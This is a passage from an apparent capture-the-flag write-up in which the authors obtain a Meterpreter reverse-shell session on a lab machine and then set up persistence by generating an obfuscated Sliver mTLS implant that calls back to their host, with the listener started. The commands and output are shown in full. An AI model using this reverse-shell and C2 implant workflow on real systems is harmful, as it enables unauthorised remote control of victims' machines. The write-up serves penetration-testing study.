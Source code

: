 
We repeated the steps of `exporting` the `profile` and received a `callback`.

```c
[*] Sending stage (201798 bytes) to 10.129.153.87
[*] Meterpreter session 2 opened (10.10.14.79:6669 -> 10.129.153.87:62555) at 2024-10-27 16:38:21 +0100

meterpreter > 
```

## Persistence

Since we didn't knew if our `reverse shell` would be stable we decided to fire up `Sliver` as `fallback`.

```c
┌──(kali㉿kali)-[~]
└─$ sliver
Connecting to localhost:31337 ...

.------..------..------..------..------..------.
|S.--. ||L.--. ||I.--. ||V.--. ||E.--. ||R.--. |
| :/\: || :/\: || (\/) || :(): || (\/) || :(): |
| :\/: || (__) || :\/: || ()() || :\/: || ()() |
| '--'S|| '--'L|| '--'I|| '--'V|| '--'E|| '--'R|
`------'`------'`------'`------'`------'`------'

All hackers gain persist
[*] Server v1.5.42 - 85b0e870d05ec47184958dbcb871ddee2eb9e3df
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver >  
```

```c
sliver > generate --mtls 10.10.14.79 --os windows --arch amd64 --format exe --disable-sgn --save /tmp/

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled
[*] Build completed in 53s
[*] Implant saved to /tmp/AMATEUR_BELFRY.exe
```

```c
sliver > mtls

[*] Starting mTLS listener ...

[*] Successfully started job #1
```

